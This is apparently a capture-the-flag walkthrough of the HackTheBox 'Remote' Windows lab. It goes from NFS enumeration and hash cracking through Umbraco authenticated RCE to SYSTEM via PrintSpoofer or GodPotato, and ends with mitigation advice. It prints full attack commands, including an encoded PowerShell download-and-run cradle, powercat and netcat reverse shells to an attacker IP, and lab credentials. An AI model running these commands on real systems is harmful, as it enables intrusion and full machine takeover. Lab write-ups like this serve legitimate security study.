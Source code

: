 ```yaml
---
title: Remote
date: 2025-05-24
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Windows, NFS, Umbraco-RCE, PrintSpoofer-privesc, GodPotato-privesc] 
image: rem.png
media_subpath: /assets/img/posts/2025-05-24-remoteHTB/
---
```


## Introduction

In this walkthrough, I tackled the *Remote* machine, an easy Windows box. During initial enumeration, I discovered a **world-readable NFS share** which contained **Umbraco CMS credentials**. Using these, I authenticated to the Umbraco web interface and exploited a known **authenticated RCE vulnerability** to gain a foothold on the machine.

Upon landing access as the **IIS AppPool user**, I confirmed the presence of the **SeImpersonatePrivilege**. Leveraging this privilege with the **PrintSpoofer exploit**, I successfully escalated to a **SYSTEM shell**.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 21 (FTP)

Anonymous access is allowed but nothing stored in FTP and our user doesn’t have write access there:

![image.png](image%202.png)

### Port 111/2049 (NFS)

Listing NFS shares I can see a share:

![image.png](image%203.png)

Create a directory and mount remote share to local directory:

```bash
sudo mount -t nfs $IP:/site_backups nfsshare -o nolock
```

Checking for mount directories I found interesting SHA1 hash:

```bash
strings Umbraco.sdf | grep admin
```

![image.png](image%204.png)

I tried cracking it with hashcat mode 100:

```bash
hashcat -m 100 hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%205.png)

### Port 139/445 (SMB)

- smbclient
    
    ```bash
    smbclient -L //$IP/ -N
    ```
    
    NT_STATUS_ACCESS_DENIED.
    
- enum4linux
    
    ```bash
    enum4linux $IP
    ```
    
    No result.
    

### Port 5985 (WinRM)

## Web

### Port 80 (HTTP)

## Credentials

```bash
admin@htb.local : baconandcheese
```

## Exploitation

After cracking the hash I tried to login to umbraco CMS.

![image.png](image%206.png)

and logged in to the server

I foudn that Umbraco version is `7.12.4` which is vulnerable to Authenticated Remote Code Execution vulnerability:
[Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49488)

I used the following PoC https://github.com/noraj/Umbraco-RCE:

```bash
python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c whoami
```

![image.png](image%207.png)

Let’s get a reverse shell:

I encoded the following command to base64 using UTF-16LE character set:

```bash
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.17/powercat.ps1');powercat -c 10.10.14.17 -p 135 -e cmd"
```

And used this command:

```bash
python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -encodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAC0AYwAgACIASQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQA3AC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQAwAC4AMQAwAC4AMQA0AC4AMQA3ACAALQBwACAAMQAzADUAIAAtAGUAIABjAG0AZAAiAA=='
```

![image.png](image%208.png)

## Privilege Escalation

We have `SeImpersonatePrivilege`:

![image.png](image%209.png)

Let’s perform PrintSpoofer attack:

```bash
.\PrintSpoofer.exe -i -c cmd
```

![image.png](image%2010.png)

**Alternative way:**

- GodPotato
    
    ```bash
    .\GodPotato-NET4.exe -cmd ".\nc64.exe -e cmd.exe 10.10.14.17 4445"
    ```
    

![image.png](image%2011.png)

It worked and we got nt authority\system shell.

## Mitigation

- **Secure NFS Shares:** Avoid exposing sensitive files on publicly accessible NFS shares; enforce strict permissions.
- **Update CMS Software:** Keep Umbraco CMS and its plugins up to date to patch known vulnerabilities.
- **Least Privilege Principle:** Limit privilege assignments such as SeImpersonatePrivilege to only necessary service accounts.
- **Web Application Hardening:** Use web application firewalls and limit administrative interfaces to internal or trusted IPs.
